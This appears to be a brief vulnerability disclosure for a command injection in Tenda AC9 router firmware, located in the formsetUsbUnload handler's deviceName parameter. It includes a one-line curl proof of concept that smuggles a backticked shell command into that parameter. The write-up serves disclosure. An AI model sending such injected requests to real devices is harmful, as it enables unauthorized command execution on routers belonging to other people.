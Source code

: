 ## Tenda AC9 command injection

### Overview

* Vendor: Tenda

* Product: Tenda AC9 
* Version:  V15.03.06.42_multi

* Manufacturer's address：https://www.tendacn.com/
* Firmware download address ：https://static.tenda.com.cn/tdcweb/download/uploadfile/AC9/US_AC9V3.0RTL_V15.03.06.42_multi_TD01.zip

### Vulnerability details

Tenda AC9 V15.03.06.42_multi was found to contain a command injection vulnerability in the `formsetUsbUnload` function via the `deviceName` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image](./img/1.png)

![image](./img/2.png)

#### PoC

```
curl http://192.168.0.1/goform/setUsbUnload?deviceName=`touch%20/tmp/3.txt`
```

![image-20250413210610225](./img/3.png)
